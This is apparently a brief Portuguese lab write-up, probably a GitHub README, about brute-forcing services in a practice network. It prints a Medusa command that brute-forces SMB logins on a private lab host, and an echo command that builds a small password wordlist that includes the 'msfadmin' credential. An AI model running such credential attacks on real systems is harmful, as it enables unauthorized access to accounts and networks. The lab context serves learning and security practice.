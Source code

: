 nesses ataques utilizei medusa para fazer diversos ataques brute force em serviços web, e em um ambiente corporativo mal configurado siga as imagens para ver os scripts utilizados e os sucessos da invasão.
medusa -h 192.168.56.102 -U smb_users.txt -P senhas_SMB -M smbnt -t 2 -T 50 codigo medusa 
echo -e "password\n123456\nWelcome123\nmsfadmin" > Senhas_SMB wordlist de senhas
